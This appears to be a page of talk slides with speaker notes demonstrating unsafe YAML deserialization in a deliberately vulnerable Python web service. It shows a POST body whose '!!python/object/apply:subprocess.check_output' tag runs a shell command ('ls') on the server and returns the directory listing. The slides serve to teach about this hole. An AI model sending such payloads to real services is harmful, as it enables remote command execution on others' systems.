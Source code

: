 POST /yaml

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@eastman.net.nz
'birthday': !!python/object/apply:datetime.date [1980, 1, 1]
``` 

RESPONSE 

```py 
{'email_address': 'tom@eastman.net.nz',
'first_name': 'Tom',
'last_name': 'Eastman',
'birthday': datetime.date(1980, 1, 1)}
``` 

Note: 

Here's we're doing something much more clever -- we're instantiating an instance of a Python date class.

The YAML Parser finds the datetime module and instances a 'date' using the arguments provided.

Did a shiver go down anyone's spine?

---

### ... hmm, what else can we do ... 

---

## Parsing YAML 

POST /yaml

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@eastman.net.nz
'contents_of_cwd': !!python/object/apply:subprocess.check_output ['ls']
``` 

RESPONSE 

```py 
{'email_address': 'tom@eastman.net.nz',
'first_name': 'Tom',
'last_name': 'Eastman',
'contents_of_cwd': 'badservice.py\nbadservice.py~\nbob.yaml\nbob.yaml~\nthousandlaughs.xml\nxxe_1.xml\n'}
``` 

Note: 

Well, this can't be good.

I can use the exact same mechanism to 'instantiate' the python standard library function for shelling out to the system.

---
